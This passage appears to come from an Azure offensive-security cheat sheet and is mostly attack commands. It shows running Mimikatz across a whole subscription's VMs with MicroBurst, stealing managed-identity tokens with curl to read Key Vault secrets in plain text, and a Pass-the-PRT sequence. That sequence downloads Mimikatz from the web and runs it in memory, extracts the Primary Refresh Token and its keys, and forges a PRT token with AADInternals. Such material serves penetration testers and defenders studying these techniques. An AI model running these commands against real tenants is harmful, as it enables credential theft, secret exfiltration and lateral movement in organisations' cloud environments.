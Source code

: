 Against the whole subscription using MicroBurst.ps1

```powershell
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```


## KeyVault Secrets

```powershell
# keyvault access token
curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&apiversion=2017-09-01" -H secret:$IDENTITY_HEADER
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:$IDENTITY_HEADER

# connect
PS> $token = 'eyJ0..'
PS> $keyvaulttoken = 'eyJ0..'
PS Az> Connect-AzAccount -AccessToken $token -AccountId 2e91a4fea0f2-46ee-8214-fa2ff6aa9abc -KeyVaultAccessToken $keyvaulttoken

# query the vault and the secrets
PS Az> Get-AzKeyVault
PS Az> Get-AzKeyVaultSecret -VaultName ResearchKeyVault
PS Az> Get-AzKeyVaultSecret -VaultName ResearchKeyVault -Name Reader -AsPlainText
```

## Pass The PRT

> MimiKatz (version 2.2.0 and above) can be used to attack (hybrid) Azure AD joined machines for lateral movement attacks via the Primary Refresh Token (PRT) which is used for Azure AD SSO (single sign-on).

```powershell
# Run mimikatz to obtain the PRT
PS> iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
PS> Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'

# Copy the PRT and KeyValue
Mimikatz> privilege::debug
Mimikatz> token::elevate
Mimikatz> dpapi::cloudapkd /keyvalue:<KeyValue> /unprotect

# Copy the Context, ClearKey and DerivedKey
Mimikatz> dpapi::cloudapkd /context:<Context> /derivedkey:<DerivedKey> /Prt:<PRT>
```

```powershell
# Generate a JWT
PS> Import-Module C:\Tools\AADInternals\AADInternals.psd1
PS AADInternals> $PRT_OF_USER = '...'
PS AADInternals> while($PRT_OF_USER.Length % 4) {$PRT_OF_USER += "="}
PS AADInternals> $PRT = [text.encoding]::UTF8.GetString([convert]::FromBase64String($PRT_OF_USER))
PS AADInternals> $ClearKey = "XXYYZZ..."
PS AADInternals> $SKey = [convert]::ToBase64String( [byte[]] ($ClearKey -replace '..', '0x$&,' -split ',' -ne ''))
PS AADInternals> New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey –GetNonce
eyJ0eXAiOiJKV1QiL...
```
